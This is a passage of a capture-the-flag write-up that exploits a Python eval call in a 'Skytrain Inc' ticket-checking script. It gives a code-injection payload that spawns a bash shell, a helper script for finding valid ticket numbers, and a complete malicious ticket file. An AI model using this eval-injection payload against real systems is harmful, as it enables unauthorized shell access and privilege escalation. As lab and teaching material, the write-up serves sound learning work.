 Now we need a way to exploit this script.

We know we can pass it any ticked we want as long as it follows the correct format.

The only text we can manipulate is the one in the fourth line that comes after the first `+` and gets passed to the `eval` function.

I searched on google for `python eval exploit` and found this [article](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1) that showcases code injection in this function.

The payload to this command injection exploit is the following.

```python
__import__('os').system('/bin/bash')
```

We're gonna put this payload right after the first `+` in the 4th line.

But for this to work, we need a number that when divided by 7 results in the remainder 4. That's an easy one.

I created a simple python script that does that.

```python
for i in range(100,200):
    if i % 7 == 4:
        print("found it", i)
```

```terminal
└──╼ $ python script.py
found it 102
found it 109
found it 116
found it 123
found it 130
found it 137
found it 144
found it 151
found it 158
found it 165
found it 172
found it 179
found it 186
found it 193
```

Choose any number and put it between `**` and `+`.

The final ticked should look like this.

```md
# Skytrain Inc
## Ticket to import os; os.system("/bin/bash")
__Ticket Code:__
**144+__import__('os').system('/bin/bash')**
##Issued: 2021/04/06
#End Ticket
```
